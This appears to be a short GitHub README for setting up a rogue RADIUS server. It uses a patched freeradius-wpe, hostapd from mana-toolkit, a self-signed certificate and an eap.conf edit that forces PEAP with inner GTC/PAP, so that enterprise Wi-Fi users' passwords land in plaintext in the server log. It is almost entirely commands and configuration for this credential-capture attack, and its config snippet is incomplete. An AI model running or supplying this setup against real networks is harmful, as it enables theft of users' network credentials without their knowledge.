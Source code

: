 # Rogue_Radius_Server
Rogue Radius Server (freeradius patch + hostapd). 

# 1. Install freeradius with patch
How to: https://github.com/brad-anton/freeradius-wpe
# 2. Create hostapd.conf - I use mana-tooklit (Kali linux)
apt-get install mana-toolkit hostapd
# 3. Script for start
start.sh
# Generate certificate and key
sudo openssl genrsa -out "/etc/[webserver]/ssl/private.key" 2048
sudo openssl req -new -key "/etc/[webserver]/ssl/private.key" -out "/etc/[webserver]/ssl/epam.csr"
sudo openssl x509 -req -days 365 -in "/etc/[webserver]/ssl/epam.csr" -signkey "/etc/[webserver]/ssl/private.key" -out "/etc/[webserver]/ssl/epam.crt"

# after that edit eap.conf in /usr/local/etc/raddb:

in eap { 
			default_eap_type = peap
gtc {
			auth_type = PAP
peap {
			default_eap_type = gtc
tls {			path to the certificates
}

# 4. Save and run: radiusd -X
# 5. After that run: hostapd  hostapd-mana-eaponly.conf

# logs: usr/local/var/log/radius# leafpad freeradius-server-wpe.log

Now you can see the password in plaintext
